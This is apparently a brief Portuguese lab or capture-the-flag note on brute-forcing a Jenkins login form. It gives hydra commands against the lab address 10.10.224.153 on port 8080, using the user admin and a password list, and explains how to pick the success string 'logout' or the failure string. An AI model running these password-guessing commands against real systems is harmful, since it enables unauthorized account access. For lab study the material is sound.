

hydra

mesmo que esteja escrito /login, na verdade o formulario post pode ser diferente:

hydra -l admin -P pass.txt 10.10.224.153 http-post-form "/j\_acegi\_security\_check:j\_username=^USER^&j_password=^PASS^&from=&Submit=Sign+i
n:S=logout" -s 8080 -I

**o S: pesquisa por qualquer outra coisa que diga logout apos login**

hydra -l admin -P pass.txt 10.10.224.153 http-post-form "/j\_acegi\_security\_check:j\_username=^USER^&j_password=^PASS^&from=&Submit=Sign+i
n:Invalid username or password" -s 8080 -I -V